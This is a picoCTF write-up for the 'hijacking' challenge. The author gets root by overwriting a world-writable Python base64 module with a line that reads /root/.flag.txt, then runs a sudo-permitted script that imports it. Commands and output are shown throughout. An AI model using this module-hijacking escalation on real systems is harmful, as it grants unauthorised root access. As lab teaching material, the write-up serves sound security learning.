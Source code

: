 # hijacking

This challenge from [picoCTF](https://play.picoctf.org/practice/challenge/352) asks us to get a root access sing a python script.

Once we connect on the remote, we can see that we have a `.server.py` file that we can run as root.

```
picoctf@challenge:~$ ls -a
.  ..  .bash_logout  .bashrc  .cache  .profile  .server.py
picoctf@challenge:~$ cat .server.py
```
```py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

We can also see that we can run this script as root

```
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We know that the script import those modules: `os` `base64` `socket`.

Let's try to edit base64 to retrieve the flag. First, we can look where the module is located on the machine with this python script:

```py
import base64
print(base64.__file__)
```
```
picoctf@challenge:~$ python3 a.py
cat: /root/.flag.txt: Permission denied
/usr/lib/python3.8/base64.py
picoctf@challenge:~$ ll /usr/lib/python3.8/base64.py
-rwxrwxrwx 1 root root 67 Nov 28 14:14 /usr/lib/python3.8/base64.py*
```

I have no clue why it displayed the flag path but now that we know it we can replace our base64 module with this code:

```py
import os

os.system('cat /root/.flag.txt')
```

Then we can just run the script:

```
picoctf@challenge:~$ sudo  /usr/bin/python3 /home/picoctf/.server.py
picoCTF{FLAG}
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip)
socket.gaierror: [Errno -5] No address associated with hostname
```